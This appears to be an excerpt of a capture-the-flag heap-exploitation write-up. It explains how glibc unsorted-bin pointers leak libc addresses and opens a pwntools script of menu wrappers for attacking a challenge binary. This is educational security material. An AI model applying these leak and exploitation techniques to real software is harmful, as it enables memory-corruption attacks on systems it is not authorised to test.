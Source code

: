## Unsorted Bin
Unsorted bin is a special bin. It holds chunks which correspond to smallbin and largebin. When a small chunk or large chunk is freed, it's first put into unsorted bin. It is done to use these chunks to serve future `malloc` requests so the allocator does not have to put the chunk in correct bin and then replace it in case some part of this chunk is used to serve a `malloc` request. But, if you do a big allocation which is not satisfiable by any chunk in unsorted bin then these chunks are put into corresponding small bin and large bin and then the request is served using the top chunk.<br>
We are interested in unsorted bin because it is a doubly-linked list in glibc and it holds libc pointers. First chunk in the list has libc pointer in `bk` (+0x18) and last chunk has libc pointer in `fd` (+0x10). If there's only one chunk in unsorted bin then both `fd` and `bk` will have libc pointers. These pointers point to `main_arena+96` in libc having tcache.<br>
We will use this feature/behaviour of unsorted bin for getting libc leak.

# Exploitation
While doing heap exploitation challenges, it is advisible to make dedicated functions for each option of the menu. I also like to make an indexing mechanism like the one used in the program, so I don't have to remember indices. Following are my wrapper functions: -
```py
#!/usr/bin/env python3
from pwn import *

indexes = [False]*11

def start():
    global p
    if args.REMOTE:
        p = remote('challenge.ctf.games', 31561)
    else:
        p = elf.process(env = {"LD_PRELOAD": libc.path})

def attach_gdb():
    if args.REMOTE or args.NOGDB:
        return
    
    attach(p, '''
    // for gdb-gef
    heap chunks
    heap bins
    continue
    ''')
    input("ATTACHED?")

def b2f(data):
    return str(struct.unpack('<d', data)[0])

def i2f(n):
    return b2f(p64(n))

def sendchoice(choice: str):
    p.sendlineafter('> ', choice)

def buy_item(index: int):
    sendchoice('B')

    p.sendlineafter('buy?: ', str(index))

def manage_item(index: int, new_name: bytes = b'stdnoerr', new_price: int = 123, new_len: int = 0x80):
    sendchoice('M')

    p.sendlineafter('?: ', str(index))
```